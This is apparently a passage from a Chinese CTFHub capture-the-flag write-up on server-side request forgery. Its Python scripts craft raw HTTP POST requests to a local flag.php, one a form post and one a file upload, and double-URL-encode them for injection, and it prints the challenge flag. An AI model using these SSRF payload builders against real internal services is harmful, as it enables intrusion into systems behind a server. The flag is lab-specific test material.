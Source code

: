 ```php
```

构造请求：，然后 urlencode 两次

```python
from urllib.parse import quote

payload: str = """POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=54f8ae799cfcbe8bec4af0f3d5c43bcb
"""

def main() -> None:
    out = payload.replace('\n', '\r\n')
    out = quote(out)
    out = quote(out)
    print(out)

if __name__ == '__main__':
    main()
```

flag: `ctfhub{750677e121b4809a5aa7dd71}`

### SSRF - 上传文件

```python
from urllib.parse import quote

payload: str = """POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: multipart/form-data; boundary=BOUNDARY
Content-Length: 120

--BOUNDARY
Content-Disposition: form-data; name="file"; filename="file"
Content-Type: text/plain

123
	--BOUNDARY--
"""

def main() -> None:
    out = payload.replace('\n', '\r\n')
    out = quote(out)
    out = quote(out)
    print(out)

if __name__ == '__main__':
    main()
```
